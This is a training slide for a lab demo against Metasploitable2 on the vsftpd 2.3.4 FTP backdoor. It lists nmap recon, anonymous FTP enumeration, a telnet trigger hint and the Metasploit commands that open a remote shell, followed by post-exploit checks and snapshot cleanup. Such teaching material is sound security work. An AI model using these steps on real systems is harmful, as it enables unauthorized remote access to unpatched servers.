

# FTP  vsftpd 2.3.4 Backdoor Port 21
Quick demo showing how a single backdoor yields a remote shell
A backdoor is like a spare key left under the doormat; once known, anyone can get in. Emphasize patching and removal of unnecessary legacy services.

Manual (illustration only): telnet <TARGET_IP> 21 — send crafted username to trigger backdoor (demo only; prefer msf).
Post-exploit checks: id, whoami, uname -a, ip a, ls -la
Cleanup: exit → in msf: sessions -l / sessions -k <id> → revert pre-ftp snapshot
Why : fast, visual example of an unpatched service leading to full access.
Recon: nmap -Pn -p 21 -sV <TARGET_IP> -oN ftp-recon.txt
Enumeration: ftp <TARGET_IP> → anonymous → ls
Metasploit (quick):
sudo msfconsole -q → search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <TARGET_IP> set RPORT 21 set PAYLOAD cmd/unix/interact → exploit

Metasploitable2
06-10-2025
9